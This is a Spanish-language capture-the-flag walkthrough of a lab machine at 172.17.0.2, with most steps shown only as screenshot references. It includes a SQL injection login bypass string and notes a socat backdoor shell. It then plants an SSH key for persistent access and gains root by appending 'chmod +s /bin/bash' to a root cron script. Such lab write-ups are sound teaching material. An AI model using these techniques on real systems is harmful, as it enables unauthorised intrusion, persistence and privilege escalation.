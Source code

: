 ![alt text](image-33.png)
![alt text](image-34.png)

dirsearch .u 172.17.0.2
![alt text](image-35.png)

Intentamos hacer SQL Injections. podemos apoyarnos de ->[Github](https://github.com/austinsonger/SQL-Injection-Authentication-Bypass-Cheat-Sheet)


admin
test' or '1'='1' -- -

![alt text](image-36.png)

![alt text](image-37.png)

![alt text](image-38.png)

conx          54  0.0  0.0   9288  3620 ?        S    17:10   0:00 socat UNIX-LISTEN:/home/conx/.cache/.sock,fork EXEC:/bin/bash

![alt text](image-39.png)

Nos conectamos a conx a traves de una backdoor
![alt text](image-41.png)
Generamos una clave SSH para autenticarnos sin contraseña
![alt text](image-45.png)
Levantamos un SV web para exponer la clave publica
![alt text](image-46.png)
## Inyectamos la clave en la maquina victima
Desde la sesion, se decarga la clave publica y la configuramos para acceso persistente
![alt text](image-47.png)
![alt text](image-48.png)
![alt text](image-50.png)
Esto habilita el acceso **SSH** sin contraseña como conx desde mi maquina 
![alt text](image-49.png)
## Enumeracion de con jobs
Explorando /etc/cron.d/, encontramos un cron ejecutado por root:
![alt text](image-51.png)
![alt text](image-52.png)

* * * * * root bash /var/backups/backup.sh
Este script se ejecuta cada minuto como root

## Escalada a root mediante SUID
Modificamos el script para añadir el bit SUID a /bin/bash
**echo 'chmod +s /bin/bash' >> /var/backups/backup.sh**
despues de que se ejecuta el cron se verifica
**ls -la /bin/bash**
el resultado nos demuestra que, esto permite ejecutar bash como root desde cualquier usuario

## Obtencion del ROOT

se ejecuta el comando, un minuto despues (Se debe esperar 1 minuto)
**/bin/bash -p**

y por ultimo confirmamos quien somos con **whoami** y vemos que obtuvimos **Root**